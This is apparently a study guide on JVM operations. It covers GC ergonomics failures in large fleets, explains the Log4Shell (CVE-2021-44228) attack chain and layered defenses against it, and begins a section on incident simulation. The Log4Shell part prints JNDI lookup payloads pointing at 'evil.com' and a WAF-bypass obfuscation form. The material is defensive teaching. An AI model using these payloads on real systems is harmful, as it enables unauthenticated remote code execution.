## Keywords

1. [JVM-085 GC Ergonomics Failures at Scale](#jvm-085-gc-ergonomics-failures-at-scale)
2. [JVM-086 Log4Shell and JVM Attack Surface (2021)](#jvm-086-log4shell-and-jvm-attack-surface-2021)
3. [JVM-087 JVM Production Incident Simulation](#jvm-087-jvm-production-incident-simulation)
4. [JVM-088 JFR Custom Events and Continuous Profiling](#jvm-088-jfr-custom-events-and-continuous-profiling)
5. [JVM-089 Unified JVM Logging (-Xlog)](#jvm-089-unified-jvm-logging--xlog)
6. [JVM-090 Ahead-of-Time Compilation (GraalVM Native)](#jvm-090-ahead-of-time-compilation-graalvm-native)
7. [JVM-091 Project Loom and Virtual Thread Scheduling](#jvm-091-project-loom-and-virtual-thread-scheduling)
8. [JVM-092 JVM Compliance - FIPS, FedRAMP Considerations](#jvm-092-jvm-compliance---fips-fedramp-considerations)
9. [JVM-093 The Billion-Dollar Safepoint Bug Pattern](#jvm-093-the-billion-dollar-safepoint-bug-pattern)

---

---

# JVM-085 GC Ergonomics Failures at Scale

**TL;DR** - GC ergonomics (auto-tuning heuristics) optimize for single-instance behavior but fail at fleet scale where variance matters more than average performance, causing cascading failures during load spikes.

---

### 🔥 Problem Statement

A fleet of 200 JVM instances runs with default GC ergonomics. Under normal load, heuristics work well. During a traffic spike, ergonomics makes different decisions on different instances (based on each instance's slightly different history). Some instances trigger Full GC at the spike peak, becoming temporarily unavailable. Load balancers shift traffic to remaining instances - which now face even higher load - triggering more Full GCs. Within 60 seconds, 40% of the fleet is in GC, creating a cascading failure. The root cause: GC heuristics optimized each instance independently without considering fleet-level behavior.

---

### 📜 Historical Context

GC ergonomics were introduced in JDK 5 (2004) to reduce tuning burden. The JVM automatically adjusts: heap size (within Xms-Xmx), generation ratios, GC algorithm selection (on small heaps), and IHOP threshold (G1). This worked well for single-instance deployments. The microservice revolution (2014+) created fleets of hundreds of identical instances where ergonomic variance between instances creates systemic risk. The term "thundering herd GC" emerged to describe correlated GC events across fleet members.

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. **Ergonomics optimize locally:** Each JVM instance optimizes for its own observed behavior. No fleet-level coordination exists.
2. **Heuristic variance is multiplicative:** Small differences in history (startup order, warmup traffic) cause divergent ergonomic decisions under identical future load.
3. **Failure correlation matters at scale:** If each instance has 1% chance of Full GC per minute, with 200 instances you expect 2 Full GCs/minute (acceptable). But correlated triggers (load spike) can cause 50+ simultaneous Full GCs (catastrophic).

**DERIVED DESIGN:**

These invariants mean: (1) fixed GC parameters (disabling adaptive sizing) produce more predictable fleet behavior, (2) fleet-level monitoring of GC distribution is essential, (3) GC tuning for fleet must consider worst-case variance, not average behavior.

**THE TRADE-OFF:**

**Gain:** Ergonomics require zero tuning. Good default behavior for single-instance, varied-workload scenarios.

**Cost:** Unpredictable behavior at fleet scale. Variance between instances. Cascading failure risk under load spikes.

---

### 🧠 Mental Model

> GC ergonomics is like auto-pilot on 200 identical planes flying in formation. Each auto-pilot adjusts independently based on its own sensors. Under calm conditions, the formation holds. During turbulence (load spike), each auto-pilot makes slightly different adjustments based on its unique history. Some planes dive (Full GC), forcing others to fill the gap - causing more dives. Manual (fixed) settings keep the formation stable through turbulence.

- "Auto-pilot" -> GC ergonomics (adaptive heuristics)
- "Plane formation" -> fleet of JVM instances
- "Turbulence" -> traffic spike or infrastructure event
- "Dive" -> Full GC (instance temporarily unavailable)
- "Formation gap" -> load redistributed to remaining instances
- "Manual settings" -> fixed GC parameters

**Where this analogy breaks down:** real auto-pilots have collision avoidance (coordination). JVM instances have zero coordination - each is completely independent. Also, a "diving" plane cannot recover by receiving more traffic, but JVM instances can recover after GC (they do not crash permanently).

---

### 🧩 Components

- **Adaptive heap sizing:** JVM grows/shrinks heap between -Xms and -Xmx based on GC overhead. Disabled by setting `-Xms == -Xmx`.
- **Adaptive IHOP (G1):** G1 adjusts initiating heap occupancy threshold based on observed marking duration and allocation rate. Can be fixed: `-XX:InitiatingHeapOccupancyPercent=45 -XX:-G1UseAdaptiveIHOP`.
- **Adaptive generation sizing:** Young gen size adjusted by GC pause goals. Fixed with `-XX:NewRatio` or `-Xmn`.
- **GC thread auto-scaling:** Number of parallel GC threads adjusted based on CPU count. Fixed with `-XX:ParallelGCThreads` and `-XX:ConcGCThreads`.
- **Pause time goal:** `-XX:MaxGCPauseMillis` (default 200ms for G1). Ergonomics adjusts young gen to meet this goal.

```text
Ergonomic drift pattern (3 instances):

Time 0 (startup): all instances identical
Time 1h: slightly different allocation rates
  Instance A: IHOP adjusted to 42%
  Instance B: IHOP adjusted to 47%
  Instance C: IHOP adjusted to 44%

Load spike hits:
  Instance B: IHOP not reached, young GC only
  Instance A: IHOP reached, concurrent mark starts
  Instance C: IHOP reached + mark too slow = Full GC
  -> C unavailable, traffic shifts to A and B
  -> A now also triggers Full GC...
```



---

### 📶 Gradual Depth

**Level 1 - What it is:** The JVM automatically adjusts garbage collection settings based on observed behavior. This auto-tuning ("ergonomics") works well for single services but can cause problems when many identical services need to behave predictably under stress.

**Level 2 - How to use it:** For fleet stability, fix key parameters: `-Xms == -Xmx` (no heap resizing), fixed IHOP (`-XX:InitiatingHeapOccupancyPercent=45 -XX:-G1UseAdaptiveIHOP`), fixed thread counts. This trades per-instance optimization for fleet predictability.

**Level 3 - How it works:** Ergonomics uses feedback loops: measure GC pause, compare to goal (MaxGCPauseMillis), adjust young gen size. If pauses too long, shrink young gen (more frequent, shorter GCs). If pauses under budget, grow young gen (less frequent GCs). Each instance's feedback loop converges differently based on its unique traffic pattern and startup history.

**Level 4 - Production mastery:** The dangerous ergonomic is adaptive IHOP. G1 adjusts when to start concurrent marking based on observed allocation rate and marking duration. During a traffic spike, allocation rate jumps. If the adaptive IHOP has drifted high (47% instead of 40%), marking starts too late, cannot complete before regions exhaust, triggering Full GC. Fixed IHOP at a conservative value (35-40%) ensures marking starts early enough to handle spikes. The cost: slightly more frequent concurrent marking during normal operation (acceptable CPU overhead vs catastrophic failure risk).

---

### ⚙️ How It Works

**Phase 1 - Steady State:** Ergonomics converges to settings matching current load. Each instance may converge differently.

**Phase 2 - Load Spike:** Allocation rate increases 3-5x. Ergonomics has not yet adapted (feedback loop has latency).

**Phase 3 - Divergent Behavior:** Instances with aggressive IHOP settings trigger concurrent marking too late. Some fail to complete marking before regions exhaust.

**Phase 4 - Cascading Failure:** Failed instances trigger Full GC (1-10s pause). Load balancer shifts traffic. Remaining instances face amplified load, triggering their own failures.

```text
Fleet GC cascade timeline:
  t+0s:   Spike hits. All instances at 40-47% heap.
  t+5s:   Instance with IHOP=47 starts marking.
  t+10s:  Allocation exhausts free regions.
  t+11s:  FULL GC on 3 instances (they pause 5s).
  t+12s:  LB shifts traffic to remaining 197.
  t+15s:  5 more instances hit Full GC.
  t+20s:  20 instances in Full GC simultaneously.
  t+30s:  Cascading failure, SLA breach.

  Prevention: fixed IHOP=40, Xms=Xmx
  -> All instances start marking at same point
  -> No divergence, no cascade
```



---

### 🚨 Failure Modes

**Failure 1 - Thundering Herd GC:**

**Symptom:** Multiple fleet instances enter Full GC within a 30-second window. Cascading unavailability. SLA breach.

**Root cause:** Correlated trigger (traffic spike, cache invalidation, bulk job) hits fleet with divergent ergonomic states.

**Diagnostic:**

```bash
# Fleet-wide GC pause correlation:
# Grafana query: count of p99_gc_pause > 1s
#   grouped by instance, time window 30s
# If >5% of fleet in Full GC simultaneously:
# -> correlated GC failure
```

**Fix:** Fix IHOP: `-XX:-G1UseAdaptiveIHOP -XX:InitiatingHeapOccupancyPercent=40`. Fix heap: `-Xms == -Xmx`. Fixed parameters prevent divergence.

**Failure 2 - Heap Oscillation:**

**Symptom:** JVM repeatedly grows and shrinks heap (-Xms != -Xmx). Each resize triggers Full GC or system calls.

**Root cause:** Adaptive sizing responds to fluctuating load by repeatedly adjusting heap size.

**Diagnostic:**

```bash
# GC log shows heap capacity changing:
grep "Heap:" gc.log | awk '{print $NF}' | uniq
# If capacity oscillates: sizing instability
```

**Fix:** Set `-Xms == -Xmx` (eliminate resizing entirely). Pre-allocate full heap at startup.

---

### 🔬 Production Reality

A common pattern in autoscaling Kubernetes deployments: new pods start with cold JIT and conservative ergonomic settings. As they warm up, ergonomics diverge. During a scale-down event, remaining pods receive concentrated traffic. Pods whose ergonomics drifted aggressively (larger young gen, higher IHOP) fail first. The fix adopted by large-scale deployments: lock all ergonomic parameters, tune once based on load testing at 2x expected peak, and deploy uniformly. The 5-10% throughput loss from conservative fixed settings is acceptable compared to the risk of cascading GC failure.

---

### ⚖️ Trade-offs & Alternatives

| Aspect          | Full ergonomics  | Fixed parameters       | Hybrid (fix critical) |
| --------------- | ---------------- | ---------------------- | --------------------- |
| Tuning effort   | Zero             | Significant            | Moderate              |
| Predictability  | Low (variance)   | High (uniform)         | High for fixed params |
| Peak throughput | Higher (adapted) | Lower (conservative)   | Moderate              |
| Fleet safety    | Low (divergence) | High (no diverge)      | High for fixed params |
| Failure mode    | Cascading GC     | Consistent degradation | Bounded variance      |

---

### ⚡ Decision Snap

**FIX GC PARAMETERS WHEN:**

- Fleet size > 10 instances of same service.
- SLA requires predictable tail latency under spikes.
- Cascading failure has occurred or is unacceptable risk.

**USE ERGONOMICS WHEN:**

- Single instance or very small fleet (<5).
- Workload varies dramatically (hard to tune manually).
- Acceptable to occasionally degrade during spikes.

**HYBRID (recommended for most):**

- Fix: -Xms==-Xmx, IHOP, ConcGCThreads.
- Leave adaptive: young gen sizing within bounded range.

---

### ⚠️ Top Traps

| #   | Misconception                       | Reality                                                                                       |
| --- | ----------------------------------- | --------------------------------------------------------------------------------------------- |
| 1   | "Ergonomics is always best"         | For single instances, yes. For fleets, predictability > per-instance optimization.            |
| 2   | "MaxGCPauseMillis is a hard limit"  | It is a GOAL, not a guarantee. GC will exceed it when necessary. Do not use as SLA guarantee. |
| 3   | "All instances behave identically"  | Startup order, traffic routing, and JIT warmup create divergent ergonomic states.             |
| 4   | "Load testing proves settings work" | Load testing validates ONE instance. Fleet behavior under correlated failure is different.    |
| 5   | "Adaptive IHOP is always better"    | Adaptive IHOP can drift too high during calm periods, causing failure when spikes arrive.     |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JVM-061 GC Tuning Methodology - Measure First - understand individual-instance tuning
- JVM-066 GC Pause Budget - SLA-Driven Tuning - pause budgets interact with ergonomic decisions

**THIS:** JVM-085 GC Ergonomics Failures at Scale

**Next steps:**

- JVM-095 JVM Fleet Observability - Key Metrics - monitoring that detects ergonomic divergence
- JVM-096 Premature GC Tuning Anti-Pattern - distinguish real tuning from premature optimization

---

**The Surprising Truth:**

The `-XX:MaxGCPauseMillis=200` default is arguably the MOST DANGEROUS ergonomic in production G1. It is not a guarantee - it is a goal that G1 tries to meet by shrinking young gen. Under sustained load, G1 shrinks young gen so aggressively to meet the pause goal that GC frequency increases dramatically (young GC every 50ms instead of every 500ms). This causes 10-20x more GC overhead from frequency alone, collapsing throughput while technically meeting the pause goal. The correct approach: set MaxGCPauseMillis higher (500-1000ms) and control actual pauses via heap sizing and IHOP rather than letting the pause goal drive young gen into the floor.

**Further Reading:**

- OpenJDK wiki: "G1GC Tuning" - adaptive behavior documentation
- Ionut Balosin, "JVM Ergonomics at Scale" (QCon 2022)
- Google SRE Book, Ch. 22: "Addressing Cascading Failures"

**Revision Card:**

1. Ergonomics optimizes per-instance. Fleet needs predictability: fix Xms==Xmx, fixed IHOP, fixed thread counts.
2. MaxGCPauseMillis is a GOAL not a limit. Too low shrinks young gen destructively. Set 500-1000ms for G1.
3. Cascading GC failure: correlated trigger + divergent ergonomics = fleet outage. Fix parameters prevent divergence.

**BAD:**

```bash
# Full ergonomics in a 200-instance fleet
java -Xms2g -Xmx8g \
  -XX:MaxGCPauseMillis=100 \
  -jar service.jar
# Each instance converges differently
# Spike: some at 6GB heap, some at 4GB
# Divergent IHOP: 38-52% across fleet
# Result: cascading Full GC
```

**GOOD:**

```bash
# Fixed critical parameters for fleet stability
java -Xms8g -Xmx8g \
  -XX:+UseG1GC \
  -XX:MaxGCPauseMillis=500 \
  -XX:InitiatingHeapOccupancyPercent=40 \
  -XX:-G1UseAdaptiveIHOP \
  -XX:ConcGCThreads=4 \
  -jar service.jar
# All 200 instances behave identically
# No ergonomic divergence under spikes
```

---

---

# JVM-086 Log4Shell and JVM Attack Surface (2021)

**TL;DR** - Log4Shell (CVE-2021-44228) exploited JNDI lookup in logging to achieve remote code execution, revealing how JVM features (JNDI, serialization, classloading) compose into attack surfaces that defenders must understand.

---

### 🔥 Problem Statement

In December 2021, a critical zero-day affected virtually every Java application using Log4j 2.x. An attacker sends a crafted string `${jndi:ldap://evil.com/a}` in any logged field (HTTP header, form input, error message). Log4j's message lookup feature resolves the JNDI expression, contacting an attacker-controlled LDAP server, which responds with a URL pointing to a malicious Java class. The JVM loads and executes this class - achieving unauthenticated remote code execution (RCE). This is not a JVM vulnerability per se, but a demonstration of how JVM features (JNDI, dynamic classloading, serialization) compose into devastating attack surfaces when exposed through libraries.

---

### 📜 Historical Context

JNDI (Java Naming and Directory Interface) was introduced in JDK 1.3 (2000) for enterprise service lookup. The ability to load remote classes via JNDI was a designed feature for distributed systems. JDK 8u191 (2018) disabled remote classloading from LDAP/RMI by default (`com.sun.jndi.ldap.object.trustURLCodebase=false`). However, deserialization-based attacks still worked even with this restriction. Log4Shell was not the first JNDI attack (it was well-known in security research since 2016) but its ubiquity in logging made it universal.

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. **Dynamic classloading is RCE-equivalent:** Loading a class from an untrusted source means executing its static initializer. Static initializer can run arbitrary code.
2. **JNDI is a classloading vector:** JNDI lookup can return serialized objects or class references from remote sources. Any uncontrolled JNDI lookup is potentially RCE.
3. **Serialization is an object instantiation vector:** Deserializing untrusted data creates arbitrary object graphs, triggering constructors and gadget chains.

**DERIVED DESIGN:**

These invariants mean: (1) never perform JNDI lookups with user-controlled input, (2) disable remote classloading features in production, (3) treat serialization of untrusted data as equivalent to code execution.

**THE TRADE-OFF:**

**Gain:** JNDI/serialization enables powerful enterprise features (service discovery, distributed objects, session replication).

**Cost:** Enormous attack surface when any input path reaches these features. Defense-in-depth required.

---

### 🧠 Mental Model

> Log4Shell is like a front desk that accepts any delivery (user input), opens the package (JNDI lookup), and plugs in whatever device is inside (loads remote class). The fix is not just screening packages (input validation) but removing the power outlet from the mailroom entirely (disabling JNDI lookups in logging, disabling remote classloading).

- "Front desk" -> Log4j message processing
- "Accepts any delivery" -> logs user-controlled strings
- "Opens package" -> JNDI lookup resolves the expression
- "Plugs in device" -> loads and executes remote class
- "Remove power outlet" -> disable JNDI lookups entirely

**Where this analogy breaks down:** real mail rooms do not automatically execute the contents of packages. The critical insight is that JVM's classloading IS code execution - loading a class runs its static initializer. There is no "safe inspection" of a loaded class.

---

### 🧩 Components

- **Log4j message lookup:** Feature that resolves `${...}` expressions in log messages. Intended for variable substitution. Fatal when combined with JNDI.
- **JNDI (Java Naming and Directory Interface):** Lookup API for naming services (LDAP, RMI, DNS). Returns Java objects from directory servers.
- **Remote classloading:** JVM loads classes from URLs specified in JNDI responses. The loaded class's static initializer executes.
- **Serialization gadget chains:** Even without remote classloading, JNDI can return serialized objects that exploit gadget chains in classpath libraries.
- **JDK mitigations:** `trustURLCodebase=false` (JDK 8u191+) disables remote class loading from JNDI. Does not prevent deserialization attacks.

```text
Log4Shell attack chain:
  1. Attacker sends: ${jndi:ldap://evil.com/x}
  2. Log4j resolves ${...} -> JNDI lookup
  3. JVM contacts evil.com LDAP server
  4. LDAP responds: classURL=http://evil.com/X.class
  5. JVM loads X.class from attacker URL
  6. X.class static initializer = RCE

  Mitigations (layers):
    - Upgrade Log4j (removes lookup feature)
    - -Dlog4j2.formatMsgNoLookups=true
    - Remove JndiLookup.class from JAR
    - Network: block outbound LDAP/RMI
    - JDK 8u191+: trustURLCodebase=false
```



---

### 📶 Gradual Depth

**Level 1 - What it is:** Log4Shell was a vulnerability in the Log4j logging library that allowed attackers to run arbitrary code on any Java server by sending a specially crafted string in any logged input. It affected virtually every Java application using Log4j 2.0-2.14.

**Level 2 - How to use it (defensively):** Upgrade Log4j to 2.17.1+. Set `-Dlog4j2.formatMsgNoLookups=true` as immediate mitigation. Audit all logging paths for user-controlled input that reaches Log4j. Block outbound LDAP/RMI at network level.

**Level 3 - How it works:** Log4j's message formatter resolves expressions like `${jndi:ldap://...}`. This triggers a JNDI lookup to an attacker-controlled server. JNDI's design allows the server to respond with either a remote class reference (loaded and executed) or a serialized object (deserialized, potentially triggering gadget chains). The combination of "log any input" + "resolve expressions" + "JNDI loads code" creates the RCE chain.

**Level 4 - Production mastery:** The deeper lesson: JVM features compose into attack surfaces. JNDI alone is not dangerous. Message lookup alone is not dangerous. But JNDI + message lookup + user input = RCE. Defense-in-depth requires: (1) input never reaches dangerous features (validation), (2) dangerous features are disabled when not needed (JNDI restrictions), (3) network prevents exploitation even if code is vulnerable (outbound filtering), (4) runtime protection (RASP/agent-based blocking of suspicious classloading patterns).

---

### ⚙️ How It Works

**Phase 1 - Injection:** Attacker places JNDI expression in any field that gets logged: HTTP headers, query params, form fields, error messages, usernames.

**Phase 2 - Trigger:** Application logs the input. Log4j's MessagePatternConverter resolves `${jndi:...}` expressions during formatting.

**Phase 3 - Lookup:** JNDI connects to attacker's LDAP/RMI server. Server responds with either a Reference (pointing to remote class URL) or serialized Java object.

**Phase 4 - Execution:** JVM loads class from attacker URL (if trustURLCodebase=true). Or deserializes the object, triggering gadget chain for RCE.

```text
Defense layers (all should be present):
  Layer 1: Upgrade Log4j to 2.17.1+
  Layer 2: WAF blocks ${jndi patterns
  Layer 3: Network: no outbound LDAP/RMI
  Layer 4: JDK 8u191+ (trustURLCodebase=false)
  Layer 5: Minimal classpath (no gadget libs)
  Layer 6: Runtime agent (block suspicious CL)

  Even ONE layer prevents full exploitation.
  Defense-in-depth = multiple layers.
```



---

### 🚨 Failure Modes

**Failure 1 - Unpatched Transitive Dependency:**

**Symptom:** Application patched its direct Log4j dependency but a transitive dependency (embedded in another library's shaded JAR) still contains vulnerable version.

**Root cause:** Java's JAR model allows multiple Log4j versions. Shaded/relocated classes bypass version management.

**Diagnostic:**

```bash
# Find ALL Log4j instances in classpath:
find /app -name "log4j-core*.jar" -o \
  -name "*log4j*" | xargs unzip -l | \
  grep "JndiLookup.class"
# Also check shaded JARs:
find /app -name "*.jar" -exec \
  unzip -l {} \; | grep "JndiLookup"
```

**Fix:** Remove `JndiLookup.class` from ALL JARs: `zip -d log4j-core*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class`. Upgrade transitives.

**Failure 2 - Deserialization Bypass:**

**Symptom:** JDK 8u191+ deployed (trustURLCodebase=false). Team believes they are safe. Still exploited via deserialization gadget chain.

**Root cause:** JNDI can return serialized objects without remote classloading. If classpath contains gadget libraries (Commons Collections, Spring, etc.), deserialization achieves RCE.

**Diagnostic:**

```bash
# Check for known gadget libraries:
find /app -name "commons-collections*.jar" \
  -o -name "spring-core*.jar" \
  -o -name "groovy*.jar"
# These enable deserialization gadgets
```

**Fix:** Upgrade Log4j (removes lookup entirely). Remove unnecessary gadget libraries. Use serialization filters (JEP 290, JDK 9+).

---

### 🔬 Production Reality

The Log4Shell incident revealed that most organizations had no inventory of which services used Log4j, which version, and whether it was a direct or transitive dependency. The median time-to-patch across the industry was 17 days (Mandiant data). Organizations with software bill-of-materials (SBOM) and centralized dependency management patched in hours. The lesson: JVM dependency management is a security capability, not just a build concern.

---

### ⚖️ Trade-offs & Alternatives

| Aspect          | Log4j (patched)   | Logback/SLF4J  | JDK logging       |
| --------------- | ----------------- | -------------- | ----------------- |
| Lookup feature  | Removed in 2.17+  | Never had JNDI | No lookups        |
| Performance     | High (async)      | High (async)   | Moderate          |
| Attack surface  | Reduced (patched) | Minimal        | Minimal           |
| Features        | Rich (appenders)  | Rich           | Basic             |
| SBOM visibility | Widespread        | Widespread     | Built-in (no dep) |

---

### ⚡ Decision Snap

**IMMEDIATE ACTIONS (any Log4j 2.x < 2.17):**

- Upgrade to 2.17.1+ (first priority).
- If cannot upgrade: remove JndiLookup.class from JAR.
- Block outbound LDAP/RMI at network perimeter.

**LONG-TERM DEFENSES:**

- Maintain SBOM for all services (know your dependencies).
- Minimize classpath (fewer gadget libraries = smaller surface).
- JDK 9+: serialization filters (JEP 290) restrict deserialization.

**ARCHITECTURAL LESSONS:**

- Never log unsanitized user input with expression-resolving formatters.
- Defense-in-depth: assume any single layer can be bypassed.

---

### ⚠️ Top Traps

| #   | Misconception                   | Reality                                                                                                     |
| --- | ------------------------------- | ----------------------------------------------------------------------------------------------------------- |
| 1   | "We do not use Log4j directly"  | Check transitive dependencies. Most Java apps have Log4j-core transitively via frameworks.                  |
| 2   | "JDK 8u191+ is fully protected" | trustURLCodebase=false blocks remote classes but deserialization gadgets still work.                        |
| 3   | "WAF blocks ${jndi: strings"    | Trivial bypasses: `${${lower:j}ndi:...}`, URL encoding, Unicode. WAF is one layer, not sufficient alone.    |
| 4   | "This only affects web apps"    | Any JVM process logging external input: Kafka consumers, batch jobs, CLI tools. Not just HTTP servers.      |
| 5   | "We patched, we are done"       | Next JNDI/deserialization CVE will come. Architectural defenses (network, SBOM, minimal classpath) persist. |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JVM-062 JVM Security Manager - Deprecated Alternatives - understand JVM security boundaries (and their limitations)
- JVM-073 Java Module System (JPMS) and ClassLoader - understand classloading as attack vector

**THIS:** JVM-086 Log4Shell and JVM Attack Surface (2021)

**Next steps:**

- JVM-092 JVM Compliance - FIPS, FedRAMP Considerations - security compliance framework context
- JVM-089 Unified JVM Logging (-Xlog) - safe JVM-level logging alternative

---

**The Surprising Truth:**

The Log4Shell vulnerability existed in Log4j since 2013 (version 2.0-beta9). It was publicly exploitable for 8 years before discovery. The lookup feature was documented and intentional - not a bug in the traditional sense. This demonstrates that "features" in widely-used libraries can be more dangerous than bugs, because they are by design, well-tested, and nobody reviews documented behavior as a vulnerability. The attack was not a code error - it was a design error in the threat model (assuming logged strings are not attacker-controlled).

**Further Reading:**

- CVE-2021-44228: Apache Log4j2 JNDI features remote code execution
- Alvaro Munoz, Oleksandr Mirosh, "A Journey from JNDI/LDAP Manipulation to Remote Code Execution" (BlackHat 2016)
- JEP 290: Filter Incoming Serialization Data (JDK 9)

**Revision Card:**

1. Log4Shell chain: user input -> log message -> JNDI lookup -> remote classloading -> RCE. Fix: upgrade Log4j 2.17.1+.
2. JDK mitigations are incomplete. trustURLCodebase blocks remote classes but not deserialization gadgets. Upgrade the library.
3. Architectural lesson: SBOM, minimal classpath, outbound network filtering. These survive the next zero-day.

**BAD:**

```java
// Logging user input with vulnerable Log4j
// (Log4j 2.0 - 2.14.1)
String userAgent = request.getHeader("User-Agent");
log.info("Request from: " + userAgent);
// Attacker sends: ${jndi:ldap://evil.com/rce}
// Result: Remote Code Execution
```

**GOOD:**

```java
// Log4j 2.17.1+ (lookups disabled by default)
// + parameterized logging (no string concat)
String userAgent = request.getHeader("User-Agent");
log.info("Request from: {}", userAgent);
// Even if old Log4j: parameterized logging
// does not resolve lookups in parameters
// + network: block outbound LDAP/RMI
// + JDK serialization filters active
```

---

---

# JVM-087 JVM Production Incident Simulation

**TL;DR** - Deliberately injecting JVM failure conditions (OOM, GC storms, thread leaks) in controlled environments builds muscle memory for diagnosing real incidents, turning panic-driven debugging into systematic triage.

---

### 🔥 Problem Statement

A production JVM service enters a state the team has never seen: 40-second GC pauses, 95% CPU in GC, heap at 99.8% utilization. The on-call engineer has read about GC tuning but never experienced a live GC storm. They spend 45 minutes searching documentation while the service degrades. Had the team practiced this exact scenario in a controlled environment - intentionally creating a GC storm and practicing the diagnostic sequence - the response time would be 5 minutes. Incident simulation transforms theoretical knowledge into executable muscle memory.

---

### 📜 Historical Context

Chaos engineering (Netflix Chaos Monkey, 2011) popularized deliberately breaking systems to improve resilience. JVM-specific chaos (injecting memory pressure, thread starvation, GC failures) emerged from SRE teams at scale. Google's DiRT (Disaster Recovery Testing) program includes JVM-specific failure scenarios. The practice of "game days" for JVM incidents became standard at organizations running >100 JVM instances where the probability of encountering every failure mode is near-certain over a year.

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. **Diagnosis speed is trained, not innate:** Reading about GC pauses does not build the neural pathways needed for rapid triage. Only hands-on practice with real symptoms builds speed.
2. **Every JVM failure has a diagnostic signature:** GC storms, thread leaks, metaspace exhaustion, native memory leaks - each produces distinct metric patterns. Learning to recognize these patterns requires seeing them.
